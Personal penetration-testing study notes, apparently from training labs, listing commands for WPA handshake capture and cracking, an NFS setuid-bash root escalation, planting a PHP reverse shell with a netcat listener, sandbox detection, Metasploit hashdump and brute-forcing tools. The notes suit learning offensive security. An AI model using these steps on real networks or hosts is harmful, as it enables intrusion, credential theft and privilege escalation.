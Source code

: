 <h1>Vulnerabilities</h1>

XXE (XML External Entity) - Takes advantage of how XML handles external entities
* GOAL: Point external entity to malicious source or code
* Intercept requests with Burp Suite
* In browser -> browse website
* Proxy -> HTTP History
* Find request to exploit -> send to repeater -> edit request -> Send

Check if machine is a sandbox environment:
* Check if it has `C:\Program Files\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\ProgramFilesDir`
* If missing, machine is usually on sandbox or virtual environment
* Can make script to automate

Obfuscation - encode code that executes a vulnerability using base64 or other encoding
* Be careful of FLOSS

Reverse Shell - Target initiates connection to attacking machine
![create reverse shell payload using msfvenom](https://github.com/user-attachments/assets/aaabf49a-661d-49b7-bf64-e6b505b08884)

Malicious Document that uses macro:
![Malicious Macro Document](https://github.com/user-attachments/assets/99abee96-92ca-4d68-b979-2d85d6b9ed14)

Listen for incoming connections to establish exploit:
![Listen for incoming connections to establish exploit](https://github.com/user-attachments/assets/8d877b1c-bb98-4d60-9e12-1e82c6eac25e)

Wifi Attacks:
* sudo iw dev - shows wireless devices and their configuration
* sudo iw dev (device/interface) scan - scan nearby Wifi networks using the device
* sudo iw dev (device/interface) set type monitor - change device to monitor mode
  * turn device/interface off before doing this
  * turn device/interface on after
* sudo ip link set dev (device/interface) up - turn device on
* sudo ip link set dev (device/interface) down - turn device off
* sudo iw dev (device/interface) info - shows status of device
* sudo airodump-ng (device/interface) - shows list of nearby wifi networks and important details like encryption type
  * CAN QUITE WHEN FIND DESIRED NETWORK
* sudo airodump-ng -c (# channels to listen to) --bssid (bssid of network) -w output-file (device/interface) - targets specific network channel to capture traffic and save it files that start with output-file\
  * KEEP RUNNING
* Attack device connected to access point (BSSID under STATION section)
* open second terminal to launch deauthentication attack
  * using aireplay-ng to send deauthentication packets to disconnect wifi connection
  * capture reconnection 4-way handshake using airodump-ng that is being run
  * sudo aireplay-ng -0 1 -a (device/interface) -c (BSSID of device connected to access point)
* sudo aircrack-ng -a 2 -b (device/interface) -w /home/glitch/rockyou.txt output*cap - crack WPA/WPA2 passphrase using dictionary attack (using rockyou.txt word list)
* stop airodump-ng on first terminal
* wpa_passphrase MalwareM_AP (Pass Key) > config
* sudo wpa_supplicant -B -c config -i wlan2

Local DNS Override:
* Add website to/etc/hosts
* Doesn't alert external DNS servers
* Also may show that website uses self-signed certificate
* `echo "(Website IP) (website)" >> /etc/hosts`

Man in the Middle Attack on website using self-signed certificate:
* launch burp suite
* change settings
* don't need burp suite browser
* add ip of website and port to listen to on proxy listeners
* set own machine as gateway (other things not taught in module)
* run custom script that simulates user requests to website (have to use `chmod +x (script file)` on file before executing)
* burp suite will capture new user requests and shown as long as script and burp suite is running

Cracking hashed passwords:
* use tool `python hash-id.py` to identify possible hashing techniques used

Where passwords held:
* usually held C:\Windows\System32\config\sam

Some Passwords for different websites may be default:
* just search up website's default passwords

Broken Authentication:
* sometimes there's already user registered ex: (arthur)
* can register user with space beforehand ex: ( arthur)
* maybe gain access to arthur account

NFS
* allows system to share directories and files with others over a network
* access files remotely by mounting file system on a server that can be accessed
* use /usr/sbin/showmount -e (IP) - display information about NFS mounts on a system
* mkdir /tmp/mount - creates temporary directory to mount share to
* mount - make files and directories on file system accessible
* exploitation ex:
  * sudo mount -t nfs (IP):(mount) /tmp/mount/ -nolock
  * cp ~/Downloads/bash - copy bash shell
  * sudo chown root bash - become root user to run executable
  * sudo chmod +s bash - gives permission for file to be executed with the privileges of file's owner READ UP ON FILE PERMISSION FORMAT AND MEANINGS!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
  * ssh ./bash -p - runs bash executible with the permissions

XSS
* Input code into text box
* Can use JavaScript, HTML, etc

Hydra
* open source tool used for network login cracking through brute-force attacks
* can be used with rockyou.txt

Robots.txt
* used to give instructions to web robots about locations within the web site that robots are allowed
* can be used to identify locations that are mentioned in file

GoBuster:
* tool used to brute-force websites
* ex: `gobuster dir -u http://(ip) -w (wordlist path)`
* wordlist path - /usr/share/wordlists

If you are able to edit .php file on website:
* substitute code with pentestmonkey reverse shell code. In reverse shell code edit ip and port
* start netcat
* visit page to run code and nc will show you shell

Metasploit:
* msfconsole - starts metasploit framework
* search (vulnerability code) - searches for exploitation code and puts in a list
* use (# in list or exploit path) - use exploitation
  * puts you in the context of the exploit (specific settings for that exploit)
  * show options - shows context of exploit
  * show  (module type (auxiliary, payload, exploit, etc)) - shows chow context of module
  * info - shows more information
  * back - exit context
* set (parameter name) (value) - set parameters
  * if not set as a global variable parameter settings will change if you change module being used
* setg (parameter name) (value) - set global parameters
* unset - clear parameter value (can use unset all)
* unsetg - unset global parameters (can use unsetg all)
* exploit - launch module
* ctrl + z - run session in background
* show sessions - shows sessions
* sessions -i (id) - choose session
* ps - lists processes
* migrate (pid) - migrate to process
* hashdump - dump passwords on machine if you have correct privileges
